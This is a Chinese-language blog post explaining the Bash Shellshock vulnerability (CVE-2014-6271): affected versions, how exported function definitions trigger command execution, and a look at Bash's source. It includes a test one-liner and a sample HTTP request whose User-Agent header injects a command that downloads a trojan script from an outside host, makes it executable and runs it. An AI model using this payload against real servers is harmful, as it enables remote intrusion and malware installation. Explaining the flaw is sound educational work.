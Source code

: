```yaml
---
title: CVE-2014-6271/Bash破壳漏洞/远程执行
date: 2018-10-12 17:53:51
tags: 漏洞
---
```

做题遇到的 直接了解了一下这个漏洞
CVE-2014-6271被当时微软评为10级漏洞 远程执行能力恐怖
<h2>影响版本</h2>
Bash版本小于等于4.3版本
Red Hat Enterprise Linux 4 (ELS)
Red Hat Enterprise Linux 4 Extended Lifecycle Support - bash-3.0-27.el4.2
Red Hat Enterprise Linux 5 - bash-3.2-33.el5.1
Red Hat Enterprise Linux 5.6 Long Life - bash-3.2-24.el5_6.1
Red Hat Enterprise Linux 5.9 Extended Update Support - bash-3.2-32.el5_9.2
Red Hat Enterprise Linux 6 - bash-4.1.2-15.el6_5.1
Red Hat Enterprise Linux 6.2 Advanced Update Support - bash-4.1.2-9.el6_2.1
Red Hat Enterprise Linux 6.4 Extended Update Support - bash-4.1.2-15.el6_4.1
Red Hat Enterprise Linux 7 - bash-4.2.45-5.el7_0.2
CentOS 5 bash-3.2-33.el5.1
CentOS 6 bash-4.1.2-15.el6_5.1
CentOS 7 bash-4.2.45-5.el7_0.2
Ubuntu:
10.04
bash 4.1-2ubuntu3.1
12.04
bash 4.2-2ubuntu2.2
14.04
bash 4.3-7ubuntu1.1
Fedora:
19
bash-4.2.47-2.fc19
20
bash-4.2.47-4.fc20
21
bash-4.3.22-3.fc21
Debian:
4.1-3
4.1-3+deb6u1
4.2+dfsg-0.1
4.2+dfsg-0.1+deb7u1
4.3-9
4.3-9.1
Amazon Linux AMI
bash-4.1.2-15.19
Mac OS X
10.10
<h2>Bash漏洞的原理</h2>
BASH除了可以将shell变量导出为环境变量，还可以将shell函数导出为环境变量！当前版本的bash通过以函数名作为环境变量名，以“（）{”开头的字串作为环境变量的值来将函数定义导出为环境变量。
此次爆出的漏洞在于BASH处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令。
简单地说就是，Bash脚本在解析某些特殊字符串时出现逻辑错误导致可以执行后面的命令。

也就是当加入这样的环境变量时 "() { :; }; shell命令" 他不仅会加入(){:;}这样的变量 还会顺便执行后面的shell语句
example:
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
vulnerable
this is a test
```

可能觉得这个漏洞没多问题 最多在本地弄弄
下面一个example：
```bash
GET /cgi-bin/helpcenter/help_center.cgi?id=20 HTTP/1.1
Host: help.tenpay.com
User-Agent: () { :;}; /usr/bin/wget -O /tmp/muma.sh   ;chmod 777 /tmp/muma.sh; ./tmp/muma.sh
Accept: */*
Referer: http://www.baidu.com
Connection: keep-alive
```
一个GET请求 当修改User-Agent为我们 () { :;}; /usr/bin/wget -O /tmp/muma.sh ;chmod 777 /tmp/muma.sh; ./tmp/muma.sh
目标服务器解析GET请求到User-Agent时 bash解析器会触发这个漏洞 会执行后面的shell
```bash
/usr/bin/wget -O /tmp/muma.sh  http://myvps.org/muma.sh ;
chmod 777 /tmp/muma.sh;
./tmp/muma.sh
```
看出恐怖之处了吧..
<h2>原理分析</h2>
从网上找到的
Shell里可以定义变量，POC中定义了一个命名为x的变量，内容是一个字符串：
() { :;}; echo vulnerable
而根据漏洞信息得知，这个漏洞产生于Shell在处理函数定义时，执行了函数体之后的命令。但这里x的值是个字符串，它是怎么转变成函数的呢。

实际这个和Bash实现有关，在Bash中定义一个函数，格式为：
function function_name() {
body;
}
当Bash在初始化环境变量时，语法解析器发现小括号和大括号的时候，就认为它是一个函数定义：
```bash
[lu4nx@lx-pc ~]$ say_hello='() { echo hello world; }'
[lu4nx@lx-pc ~]$ export say_hello
[lu4nx@lx-pc ~]$ bash -c 'say_hello'
hello world
```
上面代码在新的Bash进程中，say_hello成了新环境中的一个函数，它的演变过程如下：
1、新的bash在初始时，扫描到环境变量say_hello出现小括号和大括号，认定它是一个函数定义
2、bash把say_hello作为函数名，其值作为函数体
typeset命令可以列出当前环境中所有变量和函数定义，我们用typeset看看这个字符串怎么变成函数的。继续上面定义的say_hello函数：
```bash
[lu4nx@lx-pc ~]$ bash -c 'typeset' | fgrep -A 10 say_hello
say_hello ()
{
echo hello world
}
```
这里新启动了个Bash进程，然后执行了typeset，typeset会返回当前环境（新的环境）中所有定义，这里清楚看到say_hello被变成函数了。
漏洞产生原因
而这个漏洞在于，Bash把函数体解析完了之后，去执行了函数定义后面的语句，为啥会这样呢。
通过结合补丁，我对Bash的源码简单分析了下，Bash初始化时调用了builtins/evalstring.c里的parse_and_execute函数。是的，就等于Bash初始化环境时调用了类似其他高级语言中的eval函数，它负责解析字符串输入并执行。

继续看parse_and_execute的源码，关键点在这里：
```c++
218 else if (command = global_command)
219 {
220 struct fd_bitmap *bitmap;
```
它判断命令是否是一个定义成全局的，新的bash进程启动后，say_hello不仅被解析成函数了，还变成全局的了：
```bash
[lu4nx@lx-pc data]$ bash -c 'typeset -f'
say_hello ()
echo hello world
}
declare -fx say_hello
```
declare命令是Bash内置的，用来限定变量的属性，-f表示say_hello是一个函数，-x参数表示say_hello被export成一个环境变量，所以这句话的意思是让say_hello成了全局有效的函数。
资料来源:
http://www.hackdig.com/?09/hack-14006.htm
https://blog.csdn.net/tinyletero/article/details/40261593
https://blog.csdn.net/yaofeino1/article/details/55211993
http://www.freebuf.com/vuls/44994.html